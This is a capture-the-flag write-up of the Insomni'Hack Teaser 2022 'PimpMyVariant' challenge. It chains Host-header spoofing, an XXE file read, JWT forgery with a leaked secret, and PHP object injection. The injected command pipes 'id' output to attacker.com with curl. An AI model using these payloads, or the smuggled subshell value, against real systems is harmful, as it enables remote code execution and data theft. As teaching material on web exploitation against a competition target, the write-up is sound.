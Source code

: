 # Insomni'Hack Teaser 2022 - PimpMyVariant
## Hostname spoofing - XXE - JWT Forgery - PHP Object Injection

> `We` means DANOZOPITO team, composed of pandawa, [VladRico](https://github.com/VladRico), Xartapz and [zM_](https://github.com/ZanyMonk).

We're presented a list of names, no button, no form. No interesting file referenced in the index.

After a quick recon we find a `robots.txt` that gives us some paths.

```
/readme    # "Hostname not allowed"
/new       # "Hostname not allowed"
/log       # "Access restricted to admin only"
/flag.txt  # "Try harder"
/todo.txt  # "test back"
```

We can spoof the hostname in our requests in order to access `/readme` and `/new` endpoints.

```
$ curl 'https://pimpmyvariant.insomnihack.ch/readme' -H 'Host: 127.0.0.1'
...
#DEBUG- JWT secret key can now be found in the /www/jwt.secret.txt file
```

The endpoint `/new` presents a form that seems to push "variant names" to some kind of data storage.

```js
document.getElementById('variant_form').onsubmit = function() {
	var variant_name = document.getElementById('variant_name').value;

	postData('/api', "<?xml version='1.0' encoding='utf-8'?><root><name>"+variant_name+"</name></root>").then(data => {
        window.location.href = '/';
    });

	return false;
}
```

A chunk of JS handles the form's submission to send some sort of SOAP-like request. That surely is a XXE vector.

The app does not appear to be using any server-side database to store user's data. In fact, it generates a JWT that contains all the variant names displayed on the index page, as well as a `settings` attribute which contains a serialized PHP class instance representing the `User` we're actually logged in as.

We can extract the content of `/www/jwt.secret.txt` with the following XXE:
```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///www/jwt.secret.txt'>]>
<root>
    <name>&test;</name>
</root>
```

The server responds with a JWT and a succes message:
```xml
HTTP/1.1 302 Found
Set-Cookie: jwt=eyJhbGciOiJIUzI1N...J9cjKrLRfXl3P6OhHtI8
<?xml version="1.0" encoding="utf-8"?>
<root>
    <sucess>Variant name added !</sucess>
</root>
```

```sh
$ jwt_tool eyJhbGciOiJIUzI1N...J9cjKrLRfXl3P6OhHtI8
...
Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] variants = ['Alpha', 'Beta', 'Gamma', 'Delta', 'Omicron', 'Lambda', 'Epsilon', 'Zeta', 'Eta', 'Theta', 'Iota', '54b163783c46881f1fe7ee05f90334aa']
[+] settings = "a:1:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:0;s:2:"id";s:40:"18ece0c0b1d80ce692437fb40d52b667dab4035b";}}"
[+] exp = 1643555234    ==> TIMESTAMP = 2022-01-30 16:07:14 (UTC)
```

We just retrieved the secret key used to sign JWTs: `54b163783c46881f1fe7ee05f90334aa`.

That enables us to forge any JWT we like, and therefore we can bypass `/log` access restriction by setting `User::isAdmin` property to `true`:

```diff
- a:1:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:0;s:2:"id";s:40:"ff9d2c6e893ca3b4886f26eb98c2bc06754def72";}}
+ a:1:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"ff9d2c6e893ca3b4886f26eb98c2bc06754def72";}}
```

```sh
$ jwt_tool.py -b 'eyJhbGciOiJIUzI1N...J9cjKrLRfXl3P6OhHtI8' \
-p 54b163783c46881f1fe7ee05f90334aa -S hs256 \
-I -pc settings \
   -pv 'a:1:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"18ece0c0b1d80ce692437fb40d52b667dab4035b";}}'

eyJhbGciOiJIUzI1NiIsInR5c...snpRnQZrbbrdValmu90
$ curl 'https://pimpmyvariant.insomnihack.ch/log' \
    -H 'Host: 127.0.0.1' \
    -H 'Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5c...snpRnQZrbbrdValmu90'
...
[2021-12-25 02:12:01] Fatal error: Uncaught Error: Bad system command call from UpdateLogViewer::read() from global scope in /www/log.php:36
Stack trace:
#0 {main}
  thrown in /www/log.php on line 37
#0 {UpdateLogViewer::read}
  thrown in /www/UpdateLogViewer.inc on line 26
```

Server's document root might be at `/www/` as `/www/log.php` seems to be accessible through `/log` endpoints. This is confirmed by hiting some paths from the `robots.txt` through the previous XXE exfiltration technique.

Fortunately the server kindly serves `/www/UpdateLogViewer.inc` as plaintext because of its extension, here it is (i added all the salty comments myself):
```php
<?php
class UpdateLogViewer
{
    public string $packgeName;
    public string $logCmdReader;
    private static ?UpdateLogViewer $singleton = null;
    
    // This method won't get called on unserialization, we can override any
    // of our instance's attributes, even add new ones
    //
    // Also note that we need to make it public in order to call it manually when
    // building our payload
    private function __construct(string $packgeName)
    {
        $this->packgeName = $packgeName;
        $this->logCmdReader = 'cat';
    }
    
    // This method gets called in /www/log.php, hopefully after our settings
    // get unserialized
    public static function instance() : UpdateLogViewer
    {
        if( !isset(self::$singleton) || self::$singleton === null ){
            $c = __CLASS__;
            self::$singleton = new $c("$c");
        }
        return self::$singleton;
    }
    
    // Because file reading functions do not exist in PHP
    public static function read():string
    {
        return system(self::logFile());
    }
    
    // Data does not come directly from the $_GET array, so it's fully safe not to
    // filter or escape anything
    public static function logFile():string
    {
        return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
    }
    
    // This replaces the current $singleton instance by $this instance
    public function __wakeup()// serialize
    {
        self::$singleton = $this; 
    }
};
```

That is the ideal gadget to execute arbitrary system commands on the remote server.

By forging a new JWT with a specially crafted `settings` property containing not only an admin `User` instance, but also an `UpdateLogViewer` instance. Once `settings` array gets unserialized, the classes it contains are instanciated using `__wakeup()` method (`__construct()` is **not** executed during unserialization).

In our case, it replaces the current `$singleton` with our instance, that's perfect ! Thanks developer !

Let's forge our gadget:
```php
<?php
// Code seems safe (for us), so we don't bother and include it
include 'UpdateLogViewer.inc';

// We inject our command in a subshell, piping its result to a remote HTTP server
$instance = new UpdateLogViewer('UpdateLogViewer$(id|curl attacker.com --data-binary @-)');

// Print original serialized data + an extra attribute containing our UpdateLogViewer
// instance, and our payload !
echo 'a:1:{i:0;O:4:"User":4:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"ff9d2c6e893ca3b4886f26eb98c2bc06754def72";s:2:"me";' . serialize($instance) . ';}}';
```

```sh
$ ./gen.php
a:1:{i:0;O:4:"User":4:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"ff9d2c6e893ca3b4886f26eb98c2bc06754def72";s:2:"me";O:15:"UpdateLogViewer":2:{s:10:"packgeName";s:55:"UpdateLogViewer$(id|curl attacker.com --data-binary @-)";s:12:"logCmdReader";s:3:"cat";};}}

$ curl 'https://pimpmyvariant.insomnihack.ch/log' \
    -H 'Host: 127.0.0.1' \
    -H "Cookie: jwt=$( \
        jwt_tool -b 'eyJhbGciOiJIUzI1N...J9cjKrLRfXl3P6OhHtI8' \
            -p 54b163783c46881f1fe7ee05f90334aa -S hs256 \
            -I -pc settings -pv "$(./gen.php)" \
        )"
```

On our HTTP server we receive a `POST` request with the following body:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have a proper RCE ! Last step is to `cat /www/flag.txt` which gives us a nice ASCII art of a virus (and the flag, no kidding !).
